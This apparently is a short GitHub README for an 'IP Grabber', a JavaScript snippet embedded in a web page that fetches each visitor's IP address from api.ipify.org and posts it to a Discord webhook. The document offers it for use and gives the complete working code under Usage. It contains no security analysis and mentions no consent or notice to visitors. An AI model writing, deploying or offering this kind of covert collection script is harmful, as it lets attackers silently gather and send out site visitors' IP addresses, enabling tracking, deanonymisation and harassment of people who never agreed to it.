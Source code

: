 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK_HERE', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>

